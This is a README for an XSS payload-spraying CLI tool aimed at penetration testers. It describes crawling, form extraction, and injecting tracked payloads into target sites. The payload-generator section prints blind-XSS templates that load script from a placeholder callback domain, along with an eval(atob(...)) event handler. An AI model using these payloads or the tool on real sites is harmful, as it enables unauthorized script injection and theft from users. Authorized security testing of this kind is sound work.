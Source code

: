 <!--- This documentation provides a detailed, LLM-ready overview of the XSSpecter codebase --->
# XSSpecter - XSS Payload Spraying CLI Tool

XSSpecter is a command-line interface (CLI) utility designed for penetration testers to ethically **spray** various Cross-Site Scripting (XSS) payloads across web targets. It automates crawling, form and link extraction, payload generation, injection via GET/POST (including multipart), and results export.

---

## Table of Contents
1. [Overview](#overview)
2. [Ethical Notice & Disclaimer](#ethical-notice--disclaimer)
3. [Key Features](#key-features)
4. [Architecture & Modules](#architecture--modules)
5. [Installation](#installation)
6. [Configuration](#configuration)
7. [Usage](#usage)
   - [spray Command](#spray-command)
   - [Options & Flags](#options--flags)
   - [Examples](#examples)
8. [Execution Flow](#execution-flow)
9. [Extending & Customizing](#extending--customizing)
10. [Contributing & License](#contributing--license)

---

## Overview

XSSpecter streamlines the process of injecting XSS payloads by:
- Optionally crawling a target domain to discover pages and forms
- Parsing forms (`<form>` tags) and query-based GET parameters
- Generating unique, trackable XSS payloads
- Spraying payloads via GET, POST (urlencoded), and multipart/form-data
- Exporting scan results to JSON for analysis

It leverages Python libraries including [requests](https://pypi.org/project/requests/), [BeautifulSoup](https://pypi.org/project/beautifulsoup4/), and [Typer](https://pypi.org/project/typer/) for CLI.

## Ethical Notice & Disclaimer

> **Warning:** Use XSSpecter **only** on applications and domains for which you have explicit permission to test. Unauthorized scanning, injection, or exploitation is illegal and unethical. Always adhere to your organization's rules of engagement and applicable laws.

## Key Features
- **Crawling:** Configurable depth and max pages, domain-restricted, concurrent threads
- **Form & Link Extraction:** HTML parsing to locate `<form>` elements and GET-parameterized links
- **Payload Generation:** Unique IDs, base64-encoded scripts/styles, server-side tracking via API
- **Spraying Mechanisms:** GET requests (query injection), POST urlencoded, multipart uploads
- **Progress & Reporting:** Rich console progress bars, colored status outputs, JSON export
- **Customizable:** Headers, cookies, proxy, SSL ignore, thread count

## Architecture & Modules

```text
project_root/
├── xsspecter/           # CLI entry point
│   └── main.py          # Typer-based CLI: `xsspecter http://target/ --crawl ...`
├── modules/             # Core functionality modules
│   ├── config.py        # Load/save config (~/.config/xsspecter/config.json)
│   ├── web_crawler.py   # Domain-limited crawler, HTML fetch, concurrency
│   ├── html_parser.py   # Parse HTML, extract forms and GET-parameter links
│   ├── form_processor.py# Normalize `<form>` details to uniform data model
│   ├── payload_generator.py # Generate/track unique XSS payloads
│   ├── payload_spray.py # Send payloads via GET/POST/multipart
│   └── result_exporter.py # Export results to JSON file
├── requirements.txt     # Dependencies pinning
└── setup.py             # Package metadata
```

### Module Responsibilities
- **config.py**: Manages default values (`IGNORE_KEYS`, default emails/numbers), loads/saves user config at `~/.config/xsspecter/config.json`.
- **web_crawler.py**: Implements `WebCrawler` with methods:
  - `crawl()`: breadth-first queue with thread pool, depth and page limits
  - `_process_url()`: fetch page, extract forms, record metadata, discover links
- **html_parser.py**: `HTMLParser` wraps BS4 to:
  - Find `<form>` tags, pass to `FormProcessor`
  - Find `<a>` links with query parameters as pseudo-forms
- **form_processor.py**: `FormProcessor` normalizes inputs, textareas, selects into:
  ```json
  { url, method, data: { name: { value, type } }, content_type }
  ```
- **payload_generator.py**: `PayloadGenerator` posts a tracking payload to a remote server, generates payload templates:
  ```js
  ""><script src="//DOMAIN/UID"></script>
  ""><style/onload=import("//DOMAIN/UID")></style>
  ... onfocus=eval(atob(this.id))
  ```
- **payload_spray.py**: `PayloadSpray.run()` chooses GET vs POST, urlencoded vs multipart, attaches payload into fields or headers.
- **result_exporter.py**: Serializes `crawler.results` into JSON file.

## Installation

```bash
# Clone or install via pipx (recommended):
pipx install "git+https://github.com/your-org/xsspecter.git"

# Or install in a virtualenv:
git clone https://github.com/your-org/xsspecter.git
cd xsspecter
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
pip install .
```

## Configuration

- Default config path: `~/.config/xsspecter/config.json`
- Fields:
  - `domain`: Your tracking domain (e.g. `dnslog-server.com`)
  - `api_key`: API token for payload tracking
  - `max_depth`: Default crawl depth
  - `rate_limit`: Requests per second (reserved)

_On first run, an empty template is generated. Fill in `domain` and `api_key` before payloads will work._

## Usage

### spray Command
```bash
xsspecter [OPTIONS] <url>
```

#### Options & Flags
- `--depth INT`           : Maximum crawl depth (default: 2)
- `--max-pages INT`       : Max pages to crawl (default: 100)
- `--output PATH`         : Output JSON file (default: results.json)
- `--crawl / --no-crawl`  : Enable or disable crawling (default: disabled)
- `--proxy TEXT`          : HTTP proxy (e.g. http://user:pass@host:port)
- `--insecure`            : Ignore SSL warnings (insecure)
- `--headers key:val`     : Custom HTTP header (repeatable)
- `--cookies "k1=v1;k2=v2"`: Custom cookies
- `--threads INT`         : Number of concurrent threads (default: 5)

### Examples
- **Simple spray without crawling**
  ```bash
  xsspecter https://target.com/login 
  ```

- **Full crawl + spray**
  ```bash
  xsspecter https://target.com --crawl --depth 3 --max-pages 50
  ```

## Execution Flow
1. **Validate URL** using `validators.url`
2. **Initialize** `WebCrawler` and (optionally) **crawl** pages:
   - Fetch pages via `requests.Session`
   - Extract `<form>` and GET-link targets
   - Record page metadata (title, meta description, status code)
3. **Generate Payloads** per form/link with `PayloadGenerator`:
   - Register tracking info to remote API
   - Create unique, encoded payload strings
4. **Spray Payloads** with `PayloadSpray`:
   - GET: append query string and override `User-Agent`
   - POST urlencoded: form body + custom headers
   - POST multipart: file fields + form fields
5. **Log & Display** HTTP status per injection
6. **Export Results** to JSON via `ResultExporter.export_json`

## Extending & Customizing
- **Add new payload templates**: modify `modules/payload_generator.py`
- **Ignore additional fields**: update `Config.IGNORE_KEYS` in `modules/config.py`
- **Enhance form parsing**: extend `FormProcessor.process()` in `modules/form_processor.py`
- **Support new content types**: extend `PayloadSpray.run()` in `modules/payload_spray.py`

## Contributing & License
- Contributions via Issues & PRs welcome.
- Fork the repo, create a branch, submit a pull request.
- **License**: No license file included by default; consider adding MIT or Apache-2.0 before production use.

---
_End of LLM-ready XSSpecter documentation_